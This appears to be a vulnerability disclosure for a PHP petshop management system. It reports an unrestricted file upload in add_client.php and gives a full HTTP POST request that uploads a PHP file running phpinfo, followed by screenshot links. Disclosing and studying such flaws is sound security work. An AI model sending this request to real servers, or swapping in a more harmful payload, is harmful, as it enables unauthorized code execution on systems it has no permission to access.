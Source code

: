 petshop-management-system any file upload

Exploit Author: webraybtl@webray.com.cn inc

Vendor Homepage: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

Software Link: https://www.sourcecodester.com/php/14962/petshop-management-system-using-phppdo-oop-full-source-code-complete.html

CMSName: petshop-management-system

Tested on: Windows, Apache ,Mysql

Description

The reason for the arbitrary file upload vulnerability is that the website application allows users to upload any type of file without restrictions in the add_client. php code, resulting in arbitrary file uploads.

    Payload used:

    POST /Petshop_Management_System/controllers/add_client.php HTTP/1.1
    Host: 192.168.2.110
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
    Accept: */*
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Connection: close
    Referer: http://192.168.2.110/Petshop_Management_System/
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Length: 182
    
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM
    Content-Disposition: form-data; name="image_profile";filename="test.php"
    
    <?php phpinfo();?>
    ------WebKitFormBoundarysOcLQ1YbU3iam8cM--


Proof of Concept

![image](https://github.com/user-attachments/assets/ed3722ad-d1f6-431c-995f-f3cb2e23ba40)
![image](https://github.com/user-attachments/assets/abbd8988-36db-428f-b854-be84523734f9)

![image](https://github.com/user-attachments/assets/57cb8cef-7350-412d-b644-8d70a2088a2f)



